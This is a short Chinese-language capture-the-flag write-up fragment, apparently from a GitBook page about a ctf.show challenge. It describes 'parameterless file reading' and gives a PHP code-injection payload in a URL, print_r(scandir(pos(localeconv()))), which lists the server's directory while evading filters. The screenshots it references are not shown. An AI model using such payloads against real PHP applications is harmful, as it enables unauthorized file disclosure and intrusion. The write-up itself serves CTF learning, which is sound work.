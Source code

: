 <figure><img src="../.gitbook/assets/image 29.png" alt=""><figcaption></figcaption></figure>

很显然是个无参数读取文件，我们首先查看当前目录下的文件有哪些

```php
http://5a6291ec-129d-4e7f-b30b-7776441151ff.challenge.ctf.show/?c=print_r(scandir(pos(localeconv())));
```

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

